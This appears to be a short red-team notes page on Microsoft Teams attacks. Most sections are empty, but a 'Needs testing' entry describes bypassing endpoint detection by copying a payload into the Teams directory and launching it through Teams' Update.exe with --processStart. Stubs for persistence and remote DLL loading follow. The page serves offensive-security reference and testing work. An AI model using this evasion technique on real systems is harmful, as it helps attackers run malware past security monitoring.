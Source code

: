 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Teams
### References

### Attacks


### Needs testing
* "Bypass EDR with MSTeams"
	* References
		* [https://twitter.com/misconfig/status/1481198346379436035](https://twitter.com/misconfig/status/1481198346379436035)
	* Process
		1. Copy payload into Teams' `current` directory

				%userprofile%\AppData\Local\Microsoft\Teams\current\
		1. Execute payload

				%userprofile%\AppData\Local\Microsoft\Teams\Update.exe --processStart payload.exe --process-start-args "args"
	* Persistence
* Remote DLL Retrieval(?)
	* `AppDomain` and `update.config`
